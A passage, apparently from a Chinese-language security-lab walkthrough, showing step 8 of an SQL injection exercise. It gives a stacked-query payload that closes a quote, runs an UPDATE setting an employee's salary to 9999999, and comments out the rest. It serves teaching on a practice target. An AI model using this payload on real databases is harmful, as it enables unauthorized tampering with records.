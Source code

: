   ![12-a1单引号sql注入通过](12-a1单引号sql注入通过.png)

8. 我们要修改金额，直接闭合然后构造语句再把后面注释掉，从而让我们的金额成为最多

   > '; update employees set salary=9999999 where last_name='Smith';-- -
   >
   > 1

   ![13-a1sql查询链通过](13-a1sql查询链通过.png)
